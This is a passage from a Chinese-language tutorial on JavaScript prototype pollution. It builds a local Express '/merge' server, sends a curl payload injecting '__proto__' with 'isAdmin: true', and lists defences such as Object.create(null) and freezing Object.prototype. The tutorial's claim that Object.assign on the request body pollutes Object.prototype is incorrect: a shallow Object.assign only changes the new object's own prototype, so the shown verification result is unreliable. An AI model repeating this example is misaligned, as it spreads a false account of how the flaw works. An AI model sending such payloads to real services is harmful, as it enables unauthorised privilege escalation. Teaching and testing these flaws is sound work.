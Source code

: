 3. **初始化项目**：使用`npm`初始化项目。

   ```bash
   npm init -y
   ```

4. **安装依赖**：安装`express`和`body-parser`库。

   ```bash
   npm install express body-parser
   ```

5. **创建服务器文件**：在项目目录中创建一个`server.js`文件。

   ```javascript
   const express = require('express');
   const bodyParser = require('body-parser');
   const app = express();

   app.use(bodyParser.json());

   app.post('/merge', (req, res) => {
       const obj = Object.assign({}, req.body);
       res.json(obj);
   });

   app.listen(3000, () => {
       console.log('Server is running on port 3000');
   });
   ```

6. **启动服务器**：在终端中运行以下命令启动服务器。

   ```bash
   node server.js
   ```

### 4.2 攻击步骤

1. **构造恶意请求**：使用`curl`或Postman构造一个包含`__proto__`属性的JSON请求。

   ```bash
   curl -X POST http://localhost:3000/merge -H "Content-Type: application/json" -d '{"__proto__":{"isAdmin":true}}'
   ```

2. **验证污染结果**：在服务器端检查`Object.prototype`是否被污染。

   ```javascript
   console.log({}.isAdmin); // true
   ```

### 4.3 防御措施

1. **严格验证用户输入**：确保所有用户输入都经过严格的验证和过滤，避免直接使用用户输入来修改对象。
2. **使用`Object.create(null)`**：创建没有原型的对象，避免原型链污染。
3. **使用`Object.freeze`**：冻结`Object.prototype`，防止其被修改。

   ```javascript
   Object.freeze(Object.prototype);
   ```
